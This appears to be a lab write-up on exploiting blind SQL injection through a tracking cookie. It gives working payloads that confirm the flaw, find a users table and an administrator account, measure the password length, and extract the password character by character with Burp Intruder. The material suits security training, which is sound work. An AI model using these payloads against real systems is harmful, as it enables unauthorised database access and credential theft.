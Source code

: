 # Exploiting blind SQL injection by triggering conditional responses

Consider an application that uses tracking cookies to gather analytics about usage. 
Requests to the application include a cookie header like this:
```bash
Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4
```
When a request containing a TrackingId cookie is processed, 
the application uses a SQL query to determine whether this is a known user:
```bash
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'
```
This query is vulnerable to SQL injection, but the results from the query are not returned to the user. 
However, the application does behave differently depending on whether the query returns any data

To understand how this exploit works, suppose that two requests are sent containing the following 
TrackingId cookie values in turn:
```bash
…xyz' AND '1'='1
…xyz' AND '1'='2
```
1) The first of these values causes the query to return results, because the injected AND `'1'='1` condition is true.
As a result, the "Welcome back" message is displayed.<br>
2)The second value causes the query to not return any results, because the injected condition is false.
The "Welcome back" message is not displayed.

For example, suppose there is a table called `Users` with the columns `Username` and `Password`, and a user called `Administrator`
You can determine the password for this user by sending a series of inputs to test the password one character at a time.
```bash
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```
This returns the "Welcome back" message, indicating that the injected 
condition is true, and so the first character of the password is greater than m.
```bash
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 't
```
This does not return the "Welcome back" message, indicating that the injected
condition is false, and so the first character of the password is not greater than t.
```bash
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's
```
"Welcome back" message appeared and it is confirm first character of password is `s`

# Lab
1) Modify the `TrackingId` cookie, changing it to:
```bash
TrackingId=xyz' AND '1'='1
```
Verify that the "Welcome back" message appears in the response. Now change it to `'1'='2` verify message is not appeared
that is confirmed vulnerability

2) Payload:
```bash
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```
Verify that the condition is true, confirming that there is a table called `users`.

3) Payload:
```bash
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```
Condition true which means there is user called `administrator`

4) Payload to check password length:
```bash
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a
```
When "Welcome back" message disappered that is number of password, now it is 20 character long

5) Next payload for burp intruder:
```bash
xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§
```
Then will find password one by one by changing `(password,2,1)` and so on.


## Perfect explanation on you tube
https://youtu.be/LBG_n9fr8sM




